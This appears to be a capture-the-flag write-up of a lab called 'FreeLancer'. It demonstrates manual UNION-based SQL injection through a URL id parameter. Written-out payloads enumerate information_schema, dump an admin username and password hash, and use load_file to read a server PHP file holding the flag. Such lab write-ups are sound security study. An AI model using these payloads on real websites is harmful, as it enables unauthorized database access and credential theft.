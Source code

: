 # FreeLancer

## Exploring SQL injection manually (without sqlmap, just browser and URL)

### First step : recognition

at first I looked at the source code of the page:

![image](https://user-images.githubusercontent.com/53917092/94802615-5afafd80-03be-11eb-8df1-d49a7aea2f79.png)


and then these comments caught my attention

![image](https://user-images.githubusercontent.com/53917092/94802741-909fe680-03be-11eb-872e-80ee32c05a06.png)


so I checked these pages

* /portfolio.php?id=1
* /portfolio.php?id=2
* /portfolio.php?id=3

![image](https://user-images.githubusercontent.com/53917092/94802936-e1afda80-03be-11eb-89e7-e4dbd060f0d8.png)

![image](https://user-images.githubusercontent.com/53917092/94802981-f3917d80-03be-11eb-8cbc-ad288a8c7dcb.png)

![image](https://user-images.githubusercontent.com/53917092/94803017-fee4a900-03be-11eb-9b0d-4bd3fc74251a.png)


It is obvious that they are not separate pages, it's a pattern that changes only the number according to the id

so I tried to make a simple sql injection using the command "order by" to find out how many columns this "id" table has

> id= 1 order by 1
![image](https://user-images.githubusercontent.com/53917092/94805682-2c335600-03c3-11eb-9688-d8afd3105a71.png)

> id= 1 order by 2
![image](https://user-images.githubusercontent.com/53917092/94805721-35bcbe00-03c3-11eb-9ed7-449136fdb388.png)

> id= 1 order by 3
![image](https://user-images.githubusercontent.com/53917092/94805751-40775300-03c3-11eb-8f90-a845ca17118a.png)

> id= 1 order by 4 (error? dont exist)
![image](https://user-images.githubusercontent.com/53917092/94805773-49682480-03c3-11eb-88c9-63c3dd2997d2.png)


so we find that there are from tables 1 to 3

to be able to see the information of our sql consults, I will use "union select"

![image](https://user-images.githubusercontent.com/53917092/94806344-2b4ef400-03c4-11eb-8058-9299a62821b8.png)

to ignore the first sentence, I will change 1 for -1

>id=1 union select 1,2,3

=>

> id=-1 union select 1,2,3

![image](https://user-images.githubusercontent.com/53917092/94806452-56d1de80-03c4-11eb-96e6-c5bd26153e32.png)

now, we can view the informations in 2 and 3 from this union select

example :

if i change 

> id=-1 union select 1,2,3 

to

> id = -1 union select 1,"gabriel","vernilo"

i will see this :

![image](https://user-images.githubusercontent.com/53917092/94806641-add7b380-03c4-11eb-8f4c-c99b7f42a3b7.png)

and if i use :
id=-1 union select 1," ",@@version

![image](https://user-images.githubusercontent.com/53917092/94806920-30f90980-03c5-11eb-9239-181b4669f515.png)


we discovered the version of the database


![image](https://memegenerator.net/img/instances/56516390.jpg)


the next parts involves knowledge on how mySQL databases work

mySQL databases have by default a table with several information called information_schema

using this we can get the name of the databases

> id=-1 union select 1," ",schema_name from information_schema.schemata

![image](https://user-images.githubusercontent.com/53917092/94808687-e036e000-03c7-11eb-93a4-2ba2c2cf93df.png)

now we know that there are databases : freelancer; information_schema; mysql; performance_schema

now I'll try to get the names of the tables from inside the "freelancer" database

> id=-1 union select 1," ",table_name from information_schema.tables where table_schema = "freelancer"

![image](https://user-images.githubusercontent.com/53917092/94810199-170df580-03ca-11eb-90dd-97ff91e7e7d9.png)

now I will try to see the columns inside the safeadmin table inside the freelance database

> id=-1 union select 1," ",column_name from information_schema.columns where table_schema = "freelancer" and table_name = "safeadmin"

![image](https://user-images.githubusercontent.com/53917092/94810635-a7e4d100-03ca-11eb-8623-41e7d3d00cdb.png)

now I'll try to see the username column information

> id=-1 union select 1," ",username from safeadmin

now we have that the user is safeadm

![image](https://user-images.githubusercontent.com/53917092/94811175-64d72d80-03cb-11eb-963f-b3f2a5607959.png)

now I'll try to see the password column information

> id=-1 union select 1," ",password from safeadmin

![image](https://user-images.githubusercontent.com/53917092/94811077-47a25f00-03cb-11eb-8b7e-37e71686e050.png)

the admins password isn't ```"$2y$10$s2ZCi/tHICnA97uf4MfbZuhmOZQXdCnrM9VM9LBMHPp68vAXNRf4K"```

it's a hash, which I can't break :(

looking for ideas I decided to go back to the initial phase, the recognition

so I did a fuzzing to discover more directories and files

for this I used the tool called dirbuster

![image](https://user-images.githubusercontent.com/53917092/94811860-4cb3de00-03cc-11eb-813a-0e4ed55737bd.png)

so I found the file : /administrat/panel.php (admin's panel, probably)

![image](https://user-images.githubusercontent.com/53917092/94813747-c8af2580-03ce-11eb-927a-a8f5e9de232d.png)

in the browser the page redirects to /administrat/index.php and asks for a login

![image](https://user-images.githubusercontent.com/53917092/94814045-2b082600-03cf-11eb-804e-add3c04d25bf.png)


so I tried to read with a SQL command

> id=-1 union select 1," ",load_file("/var/www/html/administrat/panel.php")

and this shows us the flag;

![image](https://user-images.githubusercontent.com/53917092/94814288-833f2800-03cf-11eb-92f8-6a43e34b9b91.png)

